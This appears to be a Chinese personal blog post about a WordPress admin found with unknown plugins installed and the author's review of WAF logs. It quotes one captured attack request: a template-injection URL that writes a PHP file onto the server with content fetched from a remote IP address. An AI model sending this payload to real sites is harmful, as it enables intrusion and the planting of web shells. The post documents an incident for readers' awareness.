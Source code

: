 ```yaml
---
title: 令人细思极恐的网站攻击
published: 2025-02-05 22:26:00
description: '我的WordPress后台，被入侵了。'
image: './terrifying-website-attack.assets/bd390b23c3f1a52bc82226fc491aef5b-1024x574.webp'
tags: ['WordPress']
category: '科技'
draft: false 
lang: ''
---
```


## 事发

2月5日晚上10:05，我在做项目的时候需要扒一个favicon，便想着去自己的wp后台顺一个圆形的logo。可当我如往常一样登录之后，我发现自己的WP后台侧栏多了一个选项——“WP文件管理器”。

![img](./terrifying-website-attack.assets/8b8d1aa8a1dd087b0424905fba7feed9.webp)

而我，从来没有安装过这个插件。

我慌了，赶紧点进“插件”页面，发现我的WP在不知情的情况下被装了两个新插件：

![img](./terrifying-website-attack.assets/0c17512db6e4264f6832aa6236299992.webp)

如果这两个插件真是我亲手安装的，那为什么我会一点印象都没有，甚至连插件是干什么的都不知道呢？

如果不是我安装的，那会是谁安装的呢？是通过什么技术手段安装的呢？

## 排查

![img](./terrifying-website-attack.assets/f4081d9ee6bffc1e8a51a63cc71f11c4.webp)

事发之后，我火速排查了自己的宝塔WAF，发现这几天的攻击十分频繁，有的攻击还十分离谱——比如：

```
/?tag&tagstpl＝news.html&tag＝%7Bpbohome/Indexot:if((get/*-*/(/**/t))/**/(get/*-*/(/**/t1),get/*-*/(/**/t2)(get/*-*/(/**/t3))))%7Dok%7B/pbohome/Indexot:if%7D&t＝file_put_contents&t1＝ceshi.php&t2＝file_get_contents&t3＝http://110.40.132.172:800/1.TXT
```

这个大概意思应该是往我的网站目录里写入一个php文件，使其可以被访问。还好，“http://110.40.132.172:800/1.TXT”这个文件的PHP代码只是“test”，否则可能就没有现在的这篇文章了。
